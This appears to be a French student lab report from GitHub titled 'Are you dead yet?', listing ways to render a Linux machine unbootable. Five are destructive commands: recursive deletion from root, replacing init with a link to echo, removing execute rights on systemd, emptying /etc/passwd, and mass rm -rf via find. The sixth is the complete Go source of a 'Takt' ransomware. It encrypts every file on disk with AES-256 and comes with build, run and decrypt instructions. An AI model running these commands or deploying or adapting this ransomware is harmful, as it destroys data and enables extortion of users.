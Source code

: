 # TP 1 : Are you dead yet ?

---

**🌞 Plusieurs façons différentes de péter la machine :**

**➜ Premiere façon :**

    tomfox@tomfox:~$ sudo rm -r /*
    
Ici je supprime tout depuis la racine

**➜ Deuxième façon :**

    tomfox@tomfox:~$ cd /sbin
	tomfox@tomfox:/sbin$ sudo rm init
	tomfox@tomfox:/sbin$ sudo ln -s /usr/bin/echo init
    
Je me déplace dans le dossier sbin puis je supprime le init (c'est le premier process lancé par linux (PID 1)).
Puis je crée un nouveau link pour que init renvoie vers echo et non plus vers /lib/systemd/systemd

**➜ Troisième façons :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# chmod 000 /lib/systemd/systemd


Cette commande enlève les droits à tout le monde (même root) d'exécuter ce fichier, donc si ce fichier n'est pas lançable le linux ne boot pas car ce file est nécessaire pour le bon fonctionnement de linux

**➜ Quatrième façons :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# echo "" > /etc/passwd

Je supprime tout le contenu de /etc/passwd (contenu nécessaire pour le bon fonctionnement des sessions)

**➜ Cinquième façons :**
    
    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# find / -type f | grep linux | xargs rm -rf

Ici je find tout le file (-type f) dans le system qui contient "linux" dans son full path name et ensuite je les supprime en utilisant un pipe et xargs pour prendre chaque ligne de output comme argument pour mon rm (-r pour récursif et -f pour force)


**➜ Sixième façons :**

Context : V1 de notre Takt ransomware, notre projet file rouge avec [Hyouka](https://github.com/HyouKash) en SSI

Pour chiffrer : 
    
    go build takt.go
    sudo ./takt

Pour déchiffrer : 
    
    sudo ./takt --decrypt <BASE64(AES_KEY)>
    
```
#takt.go

package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "log"
    "os"
    "os/exec"
    "strings"
    "sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
    genkey := make([]byte, 32)
    _, err := rand.Read(genkey)
    if err != nil {
        log.Fatalf("Failed to read new random key: %s", err)
    }
    return genkey
}

func aesKey() []byte {
    key := createKey()
    return key
}

func createCipher() cipher.Block {
    c, err := aes.NewCipher(CryptKey)
    if err != nil {
        log.Fatalf("Failed to create the AES cipher: %s", err)
    }
    return c
}

func Crypt(filename string, ch chan string) {
    file, _ := os.Open(filename)
    fileInfo, err := os.Stat(filename)
    if err != nil {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    if fileInfo.Size() > 200000000 {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    arr := make([]byte, fileInfo.Size())
    _, _ = file.Read(arr)
    file.Close()
    blockCipher := createCipher()
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(arr, arr)
    _ = ioutil.WriteFile(filename, arr, 0644)
    wgc.Done()
    Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
    bytes, _ := ioutil.ReadFile(filename)
    blockCipher, _ := aes.NewCipher(CryptKey)
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(bytes, bytes)
    _ = ioutil.WriteFile(filename, bytes, 0644)
    wgc.Done()
    DeCrypt(<-ch, ch)
}

func main() {
    cmd := exec.Command("bash", "-c", "find / -type f")
    output, _ := cmd.CombinedOutput()
    listfile := strings.Split(string(output), "\n")
    ch := make(chan string, len(listfile))
    for _, file := range listfile {
        wg.Add(1)
        wgc.Add(1)
        go func(file string) {
            ch <- file
            wg.Done()
        }(file)
    }
    wg.Wait()
    args := os.Args[1:]
    if len(args) == 0 {
        fmt.Print("Crypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go Crypt(<-ch, ch)
        }
        wgc.Wait()
    } else if len(args) == 2 && args[0] == "--decrypt" {
        CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
        fmt.Print("Decrypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go DeCrypt(<-ch, ch)
        }
        wgc.Wait()
    }
}
```

Explications : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a accès a plus aucune de ses données. 

EPO : Educational Purpose Only